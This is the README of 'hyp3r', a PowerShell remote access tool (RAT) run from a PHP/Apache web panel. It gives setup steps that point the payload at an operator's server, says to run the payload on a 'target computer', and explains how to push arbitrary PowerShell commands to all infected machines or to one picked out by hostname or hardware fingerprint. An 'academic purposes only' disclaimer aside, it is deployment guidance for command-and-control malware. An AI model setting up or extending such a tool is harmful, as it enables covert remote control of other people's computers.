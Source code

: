 # hyp3r RAT

![GitHub License](https://img.shields.io/github/license/XZE3N/hyp3r)
![GitHub last commit](https://img.shields.io/github/last-commit/XZE3N/hyp3r)
![GitHub Issues or Pull Requests](https://img.shields.io/github/issues/XZE3N/hyp3r)
![GitHub contributors](https://img.shields.io/github/contributors/XZE3N/hyp3r)

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png" alt="PowerShell" />
</p>

## hyp3r is a basic Remote Access Tool (RAT) written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - Apache web server.
  - PowerShell version 5.1 (might work on older versions as well) installed on the target computer (Required for cmdlets to run).

## Features
  - WebGUI.
  - Live target status.
  - Remote shell execution.
  - Multi-target support (The script can handle as many targets as your server can).
  - Simple and easy to customize scripts.

## Notes
  - The timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - Remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download the .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid, hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
